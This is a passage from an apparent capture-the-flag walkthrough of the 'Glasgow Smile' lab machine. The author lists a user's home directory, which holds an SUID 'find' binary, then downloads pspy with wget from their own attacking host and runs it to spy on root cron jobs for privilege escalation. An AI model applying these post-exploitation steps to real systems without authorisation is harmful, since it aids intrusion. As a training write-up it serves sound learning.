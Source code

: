 ```bash
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

 
exit 0
```
Whoops, I deleted it. Hopefully this doesn't screw anything up (it doesn't appear to)!!
```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ rm .trash_old 
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 328
drwxr--r-- 2 penguin penguin   4096 Jul 16 22:38 .
drwxr-xr-x 5 penguin penguin   4096 Jun 16  2020 ..
-rwsr-x--x 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rw-r----- 1 penguin penguin     38 Jun 16  2020 user3.txt
```
I checked out the public cron files, but don't see anything out of the ordinary. If this script is being ran in the root's crontab it won't show up normally. Can instead use pspy to inspect file events and see if this script is being used for anything.

```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ wget http://192.168.34.138/pspy64
--2021-07-16 22:41:11--  http://192.168.34.138/pspy64
Connecting to 192.168.34.138:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                                     100%[=====================================================================================================================================>]   2.94M  --.-KB/s    in 0.04s   

2021-07-16 22:41:12 (75.6 MB/s) - ‘pspy64’ saved [3078592/3078592]

penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ chmod +x pspy64 
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
...
2021/07/16 22:41:27 CMD: UID=0    PID=1      | /sbin/init 
```